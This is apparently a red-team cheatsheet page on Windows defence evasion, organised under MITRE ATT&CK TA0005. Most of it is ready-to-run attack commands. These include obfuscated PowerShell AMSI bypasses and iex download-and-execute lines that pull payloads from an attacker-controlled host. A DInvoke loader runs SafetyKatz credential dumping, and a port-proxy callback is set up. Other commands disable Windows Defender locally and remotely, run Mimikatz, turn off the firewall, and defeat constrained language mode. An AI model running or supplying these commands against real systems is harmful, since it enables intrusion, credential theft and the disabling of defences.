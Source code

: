 ```yaml
---
layout: post
title: evasion / win
category: 03-evasion
parent: cheatsheets
modified_date: 2024-12-08
permalink: evasion/win
---
```


**Mitre Att&ck Entreprise**: [TA0005 - Defense Evasion](https://attack.mitre.org/tactics/TA0005/)

**Menu**
<!-- vscode-markdown-toc -->
* [amsi](#amsi)
* [applocker](#applocker)
* [download](#download)
* [dinvoke](#dinvoke)
* [edr](#edr)
* [powershell](#powershell)
* [windows-defender](#windows-defender)
* [windows-firewall](#windows-firewall)
* [S3cur3Th1sSh1t](#S3cur3Th1sSh1t)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

**Tools**

<script src="https://code.jquery.com/jquery-1.9.1.min.js"></script>
<script>$(window).load(function() {var repos = ["https://api.github.com/repos/TheWover/DInvoke","https://api.github.com/repos/anonymous300502/Nuke-AMSI","https://api.github.com/repos/OmerYa/Invisi-Shell","https://api.github.com/repos/PwnDexter/Invoke-EDRChecker"]; for (rep in repos) {$.ajax({type: "GET", url: repos[rep], dataType: "json", success: function(result) {$("#repo_list").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.pushed_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
<div id="repos">
    <table id="repo_list" class="sortable">
      <tr><th>_repo</th><th>_last_push</th><th>_stars</th><th>_watch</th><th>_language</th></tr>
    </table>
</div>

## <a name='amsi'></a>amsi 
```powershell
# amsi evasion # local # 01
# https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

# amsi evasion # local # 02
S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') +
('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ;
(
Get-
varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"((
"{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f
'.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f
'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"(
( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f
'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}"
-f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )

# amsi evasion # rshell # 01
iex (iwr http://$ztarg_computer_ip/amsibypass.txt -UseBasicParsing)
iex ((New-Object Net.WebClient).DownloadString('http://'$ztarg_computer_ip'/PowerView.ps1'))
```

- [amsi.fails](https://amsi.fails)
- [S3cur3Th1sSh1t](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
- [notes.offsec-journey.com](https://notes.offsec-journey.com/evasion/amsi-bypass)

## <a name='applocker'></a>applocker
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

## <a name='download'></a>download
```sh
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\MpCmdRun.exe -url <url> -path <local-path>
```

## <a name='dinvoke'></a>dinvoke
<iframe width="727" height="409" src="https://www.youtube.com/embed/FuxpMXTgV9s" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

```powershell
# download dinvoke on a host 
iwr http://$zlat_computer_ip/Loader.exe -OutFile C:\Users\Public\Loader.exe

# upload dinvoke on a remote host 
echo F | xcopy C:\Users\Public\Loader.exe \\$ztarg_computer_ip\C$\Users\Public\Loader.exe

# execute safekatz via dinvoke 
C:\Users\Public\Loader.exe -path http://$zlat_computer_ip/SafetyKatz.exe -Args %Pwn% exit

# execute safekatz via dinvoke, http callback proxied on localhost  
$null |winrs -r:$ztarg_computer_name "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=$zlat_computer_ip"
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -Args %Pwn% exit
```

## <a name='edr'></a>edr
```powershell
Invoke-EDRChecker

# crowdstrike falcon
Get-Service | Where-Object{$_.DisplayName -like "*falcon*"}

# palo cortex xdr 
cd "C:\Program Files\Palo Alto Networks\Traps"
./cytool.exe
dir HKLM:\SYSTEM\CurrentControlSet\Services\CryptSvc
```

## <a name='powershell'></a>powershell
```powershell
# powershell execution protection bypass
powershell -ep bypass

# powershell fullLanguage / Constrained language mode
# https://seyptoo.github.io/clm-applocker/
$Env:__PSLockdownPolicy
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v __PSLockdownPolicy
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v __PSLockdownPolicy /t REG_SZ /d ConstrainedLanguage /f
/v fDenyTSConnections /t REG_DWORD /d 1 /f
$ExecutionContext.SessionState.LanguageMode
$ExecutionContext.SessionState.LanguageMode ConstrainedLanguage

# https://github.com/OmerYa/Invisi-Shell
# bypasses all of Powershell security features (ScriptBlock logging, Module logging, Transcription, AMSI) by hooking .Net assemblies
RunWithRegistryNonAdmin.bat
```

## <a name='windows-defender'></a>windows-defender
```powershell
# disable windows defender
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
Set-MpPreference -DisableIOAVProtection $true

# disable windows defender remotely via pssession
$sess = New-PSSession -ComputerName $ztarg_computer_fqdn
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
Invoke-command -ScriptBlock{Set-MpPreference -DisableRealtimeMonitoring $true} -Session $sess
Invoke-command -ScriptBlock ${function:Invoke-Mimi} -Session $sess

# set local proxy redirection 
$null | winrs -r:$ztarg_computer_name "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=$zlat_computer_ip"
```

## <a name='windows-firewall'></a>windows-firewall
```powershell
# windows firewall showing / disabling config 
netsh advfirewall set allprofiles state off
netsh advfirewall show allprofiles
```

## <a name='S3cur3Th1sSh1t'></a>S3cur3Th1sSh1t
<iframe width="727" height="409" src="https://www.youtube.com/embed/_sPM9Er_194" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
